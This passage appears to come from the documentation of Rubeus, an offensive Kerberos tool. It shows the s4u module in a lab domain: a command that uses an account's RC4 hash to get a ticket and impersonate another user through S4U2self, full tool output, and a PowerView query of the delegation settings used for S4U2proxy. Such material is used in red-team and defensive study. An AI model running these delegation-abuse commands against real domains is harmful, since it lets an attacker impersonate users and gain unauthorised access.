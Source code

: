 A `/impersonateuser:X` parameter **MUST** be supplied to the **s4u** module. If nothing else is supplied, just the S4U2self process is executed, returning a forwardable ticket:

    C:\Rubeus>Rubeus.exe s4u /user:patsy /rc4:2b576acbe6bcfda7294d6bd18041b8fe /impersonateuser:dfm.a

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.3

    [*] Action: Ask TGT

    [*] Using rc4_hmac hash: 2b576acbe6bcfda7294d6bd18041b8fe
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/ preauth) for: 'testlab.local\patsy'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 230 bytes
    [*] Received 1377 bytes
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

        doIE+jCCBPagAwIBBaEDAgEWoo...(snip)...


    [*] Action: S4U

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building S4U2self request for: 'TESTLAB.LOCAL\patsy'
    [*] Sending S4U2self request
    [*] Connecting to 192.168.52.100:88
    [*] Sent 1437 bytes
    [*] Received 1574 bytes
    [+] S4U2self success!
    [*] Got a TGS for 'dfm.a@TESTLAB.LOCAL' to 'TESTLAB.LOCAL\patsy'
    [*] base64(ticket.kirbi):

        doIF2jCCBdagAwIBBaEDAgEWoo...(snip)...

That forwardable ticket can then be used as a `/tgs:Y` parameter (base64 blob or .kirbi file) to execute the S4U2proxy process. A valid **msds-allowedtodelegateto** value for the account must be supplied (`/msdsspn:X`). Say the **patsy@testlab.local** account looks like this:

    PS C:\> Get-DomainUser patsy -Properties samaccountname,msds-allowedtodelegateto | Select -Expand msds-allowedtodelegateto
    ldap/PRIMARY.testlab.local/testlab.local
    ldap/PRIMARY
    ldap/PRIMARY.testlab.local/TESTLAB
    ldap/PRIMARY/TESTLAB
    ldap/PRIMARY.testlab.local/DomainDnsZones.testlab.local
    ldap/PRIMARY.testlab.local/ForestDnsZones.testlab.local
    ldap/PRIMARY.testlab.local
